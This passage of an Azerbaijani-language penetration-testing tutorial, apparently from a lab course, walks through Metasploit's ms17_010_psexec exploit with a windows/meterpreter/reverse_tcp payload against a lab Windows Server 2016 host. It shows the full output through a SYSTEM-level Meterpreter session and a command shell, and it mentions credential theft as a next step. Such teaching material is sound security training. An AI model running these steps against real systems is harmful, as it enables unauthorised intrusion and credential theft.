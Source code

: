 ```
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

Bu dəfə, biz sadə saxladıq və sadəcə `windows/meterpreter/reverse_tcp` payload-u istifadə etdik. Əvvəlki payload bölmələrində göstərildiyi kimi, fərqli bir shell növü üçün və ya hücumunuzu daha çox qarışdırmaq üçün bunu dəyişə bilərsiniz. Seçimlərimiz təyin olunduğuna görə, gəlin bir cəhd edək və shell əldə edib-etmədiyimizə baxaq.

**Hücumu İcra Et və Geri Zəng Qəbul Et.**

**Hücumumuzu İcra Edin**
```
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] 10.129.201.97:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.201.97:445 - Built a write-what-where primitive...
[+] 10.129.201.97:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.129.201.97:445 - Selecting PowerShell target
[*] 10.129.201.97:445 - Executing the payload...
[+] 10.129.201.97:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.201.97
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.129.201.97:50215) at 2021-09-27 18:58:00 -0400

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

Uğur! Eksploitimizi yeritdik və shell sessiyası əldə etdik. Üstəlik, SYSTEM səviyyəli bir shell. Əvvəlki MSF modullarında göründüyü kimi, indi ki, Meterpreter vasitəsilə açıq bir sessiyamız var, biz `meterpreter >` promptu ilə qarşılaşırıq. Buradan, Meterpreter-dən sistem məlumatını toplamaq, istifadəçi şəxsiyyət vəsiqələrini oğurlamaq və ya hosta qarşı başqa bir post-eksploitasiya modulu istifadə etmək üçün əlavə əmrlər işlədə bilərik. Əgər hostla birbaşa qarşılıqlı əlaqədə olmaq istəyirsinizsə, Meterpreter-dən hostda interaktiv shell sessiyasına da düşə bilərsiniz.

**Yerli Shell-i Müəyyənləşdirin.**
```
meterpreter > shell

Process 4844 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
